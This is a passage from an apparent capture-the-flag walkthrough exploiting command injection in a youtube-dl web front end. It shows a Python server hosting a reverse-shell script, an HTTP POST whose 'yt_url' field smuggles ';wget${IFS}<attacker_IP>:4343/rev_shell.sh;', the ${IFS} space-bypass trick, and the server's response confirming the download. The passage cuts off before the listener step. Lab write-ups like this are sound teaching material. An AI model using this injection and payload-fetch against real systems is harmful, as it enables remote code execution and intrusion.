 Now we have to upload the file to the remote machine. To do such a thing, we can simply run a Python server and download the file from the remote machine:

```sh
attacker@machine:~$ python3 -m http.server 4343
```

And then we can exploit the command injection by just posting the following HTTP request with Burp Repeater, which will "wget" our `rev_shell.sh` script:

```
POST / HTTP/1.1
Host: 10.10.162.165
Content-Length: 127
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.10.162.165
Referer: http://10.10.162.165/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

yt_url=;wget${IFS}<attacker_IP>:4343/rev_shell.sh;
```

*Caveat*: it's important to add the value of the special var IFS, `${IFS}`, as the space " " character replacement.

We will get the following response:

```
HTTP/1.1 200 OK
Date: Sat, 21 Nov 2020 16:33:46 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 840
Connection: close
Content-Type: text/html; charset=UTF-8

{"status":127,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nUsage: youtube-dl [OPTIONS] URL [URL...]\n\nyoutube-dl: error: You must provide at least one URL.\nType youtube-dl --help to see a list of all options.\n--2020-11-21 16:33:47--  http:\/\/10.9.117.97:4343\/rev_shell.sh\nConnecting to 10.9.117.97:4343... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 90 [application\/x-sh]\nSaving to: 'rev_shell.sh.1'\n\n     0K                                                       100%  359K=0s\n\n2020-11-21 16:33:47 (359 KB\/s) - 'rev_shell.sh' saved [90\/90]\n\nsh: 1: -f: not found\n","url_orginal":";wget${IFS}10.9.117.97:4343\/rev_shell.sh;","output":"","result_url":"\/tmp\/downloads\/5fb9416ac791a.mp3"}
```

Now we can just start a netcat listener on the attacker machine - make sure to choose the same port as specified in the script - by typing:
